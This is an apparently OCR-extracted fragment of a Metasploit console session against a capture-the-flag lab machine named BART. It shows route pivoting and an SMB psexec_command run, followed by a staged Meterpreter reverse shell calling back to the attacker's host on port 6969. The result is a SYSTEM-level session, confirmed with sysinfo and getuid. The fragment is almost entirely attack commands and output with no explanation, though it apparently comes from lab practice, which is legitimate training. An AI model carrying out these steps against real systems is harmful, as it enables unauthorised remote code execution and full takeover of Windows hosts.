 ````
   WINPATH               WINDOWS                           yes       The name of the remote Windows directory
msf auxiliary(admin/smb/psexec_command) > route add 10.10.10.81/32 255.255.255.255 7
[*] Route added
msf auxiliary(admin/smb/psexec_command) > run

[+] 10.10.10.81:445       - Service start timed out, OK if running a command or non-service executable...
[*] 10.10.10.81:445       - checking if the file is unlocked
[*] 10.10.10.81:445       - Unable to get handle: The server responded with error: STATUS_SHARING_VIOLATION (Command=45 WordCount=0)
[-] 10.10.10.81:445       - Command seems to still be executing. Try increasing RETRY and DELAY
[*] 10.10.10.81:445       - Getting the command output...
[*] 10.10.10.81:445       - Command finished with no output
[*] 10.10.10.81:445       - Executing cleanup...
[+] 10.10.10.81:445       - Cleanup was successful
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(admin/smb/psexec_command) >
[*] Sending stage (206403 bytes) to 10.10.10.81
[*] Meterpreter session 8 opened (10.10.15.171:6969 -> 10.10.10.81:49866) at 2018-07-14 01:15:57 -0400


msf auxiliary(admin/smb/psexec_command) > sessions

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  7         meterpreter x64/windows  NT AUTHORITY\IUSR @ BART    10.10.15.171:6969 -> 10.10.10.81:49863 (10.10.10.81)
  8         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ BART  10.10.15.171:6969 -> 10.10.10.81:49866 (10.10.10.81)

msf auxiliary(admin/smb/psexec_command) > sessions -i 8
[*] Starting interaction with 8...
meterpreter > sysinfo
Computer        : BART
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

````


